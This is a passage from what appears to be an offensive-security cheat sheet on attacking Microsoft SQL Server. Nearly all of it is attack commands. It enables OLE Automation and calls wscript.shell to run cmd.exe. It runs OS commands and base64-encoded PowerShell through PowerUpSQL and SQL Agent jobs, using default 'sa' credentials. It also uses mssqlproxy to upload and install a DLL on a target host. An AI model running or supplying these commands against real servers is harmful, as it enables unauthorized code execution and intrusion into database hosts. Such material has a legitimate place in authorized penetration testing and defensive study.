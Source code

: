 ## OLE Automation

### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```


```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```


## Agent Jobs

### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

### List All Jobs

```ps1
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```
